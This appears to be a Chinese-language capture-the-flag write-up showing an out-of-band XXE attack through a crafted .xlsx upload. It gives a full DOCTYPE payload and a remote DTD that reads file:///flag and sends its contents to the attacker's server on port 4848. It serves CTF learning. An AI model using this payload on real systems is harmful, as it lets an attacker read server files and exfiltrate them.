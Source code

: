 修改[Content-Types].xml，第二行添加如下内容，保存。

```xml-dtd
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip:端口/xxx.dtd">
%remote;%int;%send;
]>
<root>&send;</root>
这里主机必须开启了网站才行,远程系统执行云主机网站的xxx.dtd文件
```

![修改[Content_Types]文件](./filejava/修改[Content_Types]文件.png)

将修改后的压缩包重新修改后缀为.xlsx文件。

在网站根目录下创建xxx.dtd文件：

```xml-dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip地址:4848?p=%file;'>">
```

靶机先远程访问云服务器的xx.dtd文件，进而读取自身的flag文件。

然后将读取的信息发送到本地的4848端口。

![查看xxx.dtd](./filejava/查看xxx.dtd.png)

监控本地的4848端口

![监听端口](./filejava/监听端口.png)

上传excel-shell.xlsx文件。

![进入靶场](./filejava/进入靶场.png)

